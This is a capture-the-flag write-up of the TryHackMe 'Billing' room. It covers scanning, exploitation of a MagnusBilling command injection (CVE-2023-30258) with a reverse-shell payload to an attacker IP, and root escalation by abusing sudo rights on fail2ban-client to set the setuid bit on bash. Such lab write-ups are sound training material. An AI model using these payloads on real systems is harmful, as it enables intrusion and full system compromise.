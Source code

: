 ```yaml
---
title: "TryHackMe: Billing"
author: c3l1kd
categories: [TryHackMe]
tags: [web, command injection, sudo, fail2ban]
render_with_liquid: false
img_path: /images/tryhackme_billing/
image:
  path: room_image.webp
---
```


**Billing** was a straightforward room where we exploited a command injection vulnerability in the **MagnusBilling** web application to gain an initial foothold. Afterwards, using our sudo privileges, which allowed us to interact with and configure the **fail2ban-server**, we successfully escalated to the **root** user and completed the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/billing){: .center }

## Initial Enumeration

### Nmap Scan

We start with an **`nmap`** scan:

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.160.86
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp    open     http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling
|_Requested resource was http://10.10.160.86/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
3306/tcp  open     mysql    MariaDB (unauthorized)
5038/tcp  open     asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are four open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

### Web 80

Visiting `http://10.10.160.86/` redirects us to `/mbilling/`, where we find the **MagnusBilling** application running.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

By checking some common files for the application, we can identify the **MagnusBilling** version as `7.x.x` from the `README.md` file.

![Web 80 Mbilling Readme](web_80_mbilling_readme.webp){: width="1200" height="600"}

## Shell as asterisk

Searching for vulnerabilities in **MagnusBilling 7**, we can discover it is vulnerable to **`CVE-2023-30258`**, an unauthenticated command injection vulnerability. A detailed advisory for this vulnerability with a proof-of-concept (PoC) is available [here](https://eldstal.se/advisories/230327-magnusbilling.html).

![Magnusbilling Command Injection Poc](magnusbilling_command_injection_poc.webp){: width="900" height="600"}

Reviewing the [vulnerable code](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) referenced in the advisory shows that if the `democ` GET parameter is provided (and is longer than 5 characters) in a request to the `/lib/icepay/icepay.php` endpoint, a command is built as:

```php
"touch " . $_GET['democ'] . '.txt'
```

This string is then passed to the `exec()` function, making the code vulnerable to command injection.

![Magnusbilling Vulnerable Code](magnusbilling_vulnerable_code.webp){: width="700" height="300"}

Testing the PoC from the advisory with `sleep` commands confirms the vulnerability, as the server consistently takes longer than the specified duration in our `sleep` commands to respond, indicating that they are being executed.

```console
$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+2;'

real    2.19s

$ time curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'

real    5.27s
```

Using this vulnerability, we can send a command injection payload with a reverse shell command via **`curl`** to obtain a shell:

```console
$ curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.64.79 443 >/tmp/f;'
```
{: .wrap }

Checking our listener, we see a shell as the **asterisk** user and can read the user flag at `/home/magnus/user.txt`:

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.64.79] from (UNKNOWN) [10.10.160.86] 41006
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ export TERM=xterm
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

asterisk@Billing:/var/www/html/mbilling/lib/icepay$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ wc -c /home/magnus/user.txt
38 /home/magnus/user.txt
```

## Shell as root

Checking the **sudo** privileges for the **asterisk** user, we find that the user is allowed to run the `fail2ban-client` command as **root** without a password:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**fail2ban-client** is a command-line interface that allows us to interact with, configure, and control the **fail2ban-server**. To give a brief explanation, **fail2ban** is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, **fail2ban-server** is running as **root**, as expected.

```console
asterisk@Billing:/$ ps -aux | grep fail
root         539  0.2  1.4 1167416 27992 ?       Ssl  13:10   0:08 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

Checking the status of the **fail2ban-server**, we see 8 active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```
{: .wrap }

`Jails` are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

Checking the `/etc/fail2ban/jail.local` file, we can see an example of a `jail`:

```console
[asterisk-iptables]
enabled  = true
filter   = asterisk
action   = iptables-allports[name=ASTERISK, port=all, protocol=all]
logpath  = /var/log/asterisk/messages
maxretry = 5
bantime = 600
```

From the configuration, among other things, we see that the `asterisk-iptables` jail monitors the `/var/log/asterisk/messages` log file and checks for patterns defined in the `asterisk` filter (`/etc/fail2ban/filter.d/asterisk.conf`). When those patterns are matched, it performs the appropriate action defined in the `iptables-allports` action (`/etc/fail2ban/action.d/iptables-allports.conf`).

To use **fail2ban** to execute commands as **root**, we can modify one of the actions defined for the jail, such as the action to perform (command to execute) when banning an IP. 

First, we retrieve the currently set actions for one of the active jails.

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```

Next, we modify the command for the `actionban` in the `iptables-allports-ASTERISK` action, which is executed when banning an IP for the **asterisk-iptables** jail. We set it to run our command that sets the **setuid** bit on **/bin/bash** instead, as follows:

```console
asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
<iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
chmod +s /bin/bash
```
{: .wrap }

Now, we can manually ban an IP address for the **asterisk-iptables** jail, which will execute the command for `actionban` defined in the `iptables-allports-ASTERISK` action.

```console
asterisk@Billing:/$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

asterisk@Billing:/$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
1

asterisk@Billing:/$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Finally, with the **setuid** bit set on the **/bin/bash** binary, we can use it to obtain a shell and read the root flag at `/root/root.txt` to complete the room.

```console
asterisk@Billing:/$ /bin/bash -p
bash-5.1# python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
root@Billing:/# id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
root@Billing:/# wc -c /root/root.txt
38 /root/root.txt
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>